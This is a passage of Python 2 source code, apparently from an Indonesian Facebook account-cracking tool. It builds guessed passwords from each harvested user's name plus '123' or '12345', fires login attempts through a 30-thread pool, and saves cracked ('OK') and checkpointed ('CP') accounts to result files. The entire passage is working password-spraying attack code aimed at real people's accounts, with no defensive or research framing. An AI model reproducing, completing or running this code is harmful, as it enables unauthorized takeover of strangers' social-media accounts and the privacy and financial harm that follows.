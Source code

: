             os.remove(self.apk)
            hasil(ok,cp)
        elif yan in ('2', '02'):
            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
            with YayanGanteng(max_workers=30) as (__yayanXD__):
            	for yntkts in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = yntkts.split('<=>')
                        xz = name.split(' ')
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        else:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        __yayanXD__.submit(self.__mbasic__, uid, pwx)
                    except:
                        pass

            os.remove(self.apk)
            hasil(ok,cp)
        elif yan in ('3', '03'):
            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
            with YayanGanteng(max_workers=30) as (__yayanXD__):
            	for yntkts in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = yntkts.split('<=>')
                        xz = name.split(' ')
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        else:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        __yayanXD__.submit(self.__mfb__, uid, pwx)
                    except:
                        pass

            os.remove(self.apk)
            hasil(ok,cp)

        else:
            print '\n %s[%s×%s] input yang bener'%(N,M,N);self.__pler__()

if __name__ == '__main__':
    os.system('git pull')
    moch_yayan()
